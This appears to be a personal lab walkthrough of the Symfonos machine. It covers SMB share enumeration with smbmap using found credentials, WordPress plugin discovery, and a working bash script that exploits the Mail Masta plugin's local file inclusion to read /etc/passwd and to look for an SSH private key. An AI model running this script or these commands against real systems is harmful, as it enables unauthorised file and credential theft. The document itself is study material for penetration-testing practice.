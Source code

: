 ![[Pasted image 20240321172749.png]]![[Pasted image 20240321173751.png]]
![[Pasted image 20240321173808.png]]
## SMB Exploitation
[[SMB - Samba- Network Shares y Null Session]]
![[Pasted image 20240321174038.png]]we found anonymous file:
$smbmap -H 192.168.195.54 -r anonymous *list the file from user anonymous*
$smbmap -H 192.168.195.54 --download anonymous/attention.txt *dowload a file*
![[Pasted image 20240321180653.png]]

### User enumeration
Trying with users found in smbmap: Helios
`$smbmap -H 192.168.195.54 -u helios -p qwerty`
![[Pasted image 20240321191157.png]]
`$smbmap -H 192.168.195.54 -u helios -p qwerty -r helios` *verify what we found on disk helios*

`$smbmap -H 192.168.195.54 -u helios -p qwerty --download helios/todo.txt`

## Wordpress
[[WordPress Exploitation]]
As resources are not well gotten, inspecting the source code, it's using a domain name not recognized for our machine
![[Pasted image 20240321191830.png]]
![[Pasted image 20240321191950.png]]

We modidy /etc/hosts with the IP and domain. Now it works better:
![[Pasted image 20240321192150.png]]


#### Plugin enumeration
![[Pasted image 20240322040547.png]]
`$curl -s -X GET "http://192.168.195.54/h3l105/" | grep "wp-content" | grep -oP "'.*?'" | grep "symfonos.local" | cu -d '/' -f 1-7 | sort -u | grep plugins`
- *`grep -oP "'.*'"`* - `.`: Matches any character.
	- `*`: Indicates that the preceding character (here, the dot) can appear zero or more times.
	-  `?`: Makes the preceding quantifier non-greedy, meaning the pattern will match the smallest number of characters possible while still satisfying the condition. In other words, it enables non-greedy matching rather than greedy matching, which is important when using `grep -o` to get non-overlapping matches.
-  `cut -d '/' -f 1-7`: This sends the output of the previous command to `cut`, which splits each line using the delimiter '/' and displays fields 1 through 7.
- `sort -u`: sort unique
![[Pasted image 20240322044942.png]]

We found a service mail-masa which probably uses port 25 open.
![[Pasted image 20240322045038.png]]
### Local File exclusion
[[File Inclusion]]
Anlayzing the first exploit:
$searchsploit -x php/webapps/4290.txt
![[Pasted image 20240322045336.png]]
We can use the prof of concept
![[Pasted image 20240322045605.png]]


#### Scrip to get 
#!/bin/bash

#Colours
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function ctrl_c(){
  echo -e "\n\n${redColour} [!] Quitting...${endColour} \n"
  exit 1
}

#Ctrl+C
trap ctrl_c INT

declare -i parameter_counter=0

function fileRead(){
  filename=$1

  echo -e "\n${yellowColour}[+]${endColour}${grayColour} Ceci est le contenu du fichier ${endColour}${redColour}$filename${endColour}${grayColour}:${endColour}\n"
  curl -s -X GET "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=$filename"
}

function helpPanel(){
  echo -e "\n${yellowColour}[i]${endColour}${grayColour}Usage:${endColour}\n"
  echo -e "\t${redColour}h)${endColour}${blueColour} Montrer panneau d'aide${endColour}" 
  echo -e "\t${redColour}f)${endColour}${blueColour} Donner le chemin du fichier"
}
while getopts "hf:" arg; do
  case $arg in
    h);;
    f) filename=$OPTARG; let parameter_counter+=1;;
  esac
done

if [ $parameter_counter -eq 1 ]; then
  fileRead "$filename"
else
  helpPanel
fi



- `getopts`: This is a built-in shell command that is used to parse command-line options and arguments. It is typically followed by a string containing the option characters that the script expects to receive. In this case, `"hf:"` specifies that the script expects two options: `-h` and `-f`, with the `-f` option requiring an argument (indicated by the colon `:` after the `f`).
    
- `"hf:"`: This string specifies the options that the script expects. Each letter corresponds to an option that the script can handle. If a letter is followed by a colon (`:`), it indicates that the option requires an argument.
    
- `arg`: This is the name of a variable that `getopts` uses to store each option it parses.
    
- `do`: This keyword begins a block of code that will be executed for each option parsed by `getopts`

We trying ennumerating users who has bash enabled.

`./lfi_read_file.sh -f /etc/passwd | grep "sh$"` *we can verify as well if there is a private key stored to get access without granting a password in path: /home/helios/.ssh/id_rsa*

![[Pasted image 20240322123535.png]]

`./lfi_read_file.sh -f /proc/schedstat

`/proc/schedstat` is a pseudo-file provided by the Linux kernel that contains scheduler statistics. The Linux scheduler is responsible for determining which processes should run, for how long, and in what order on a system with multiple processes competing for CPU time.

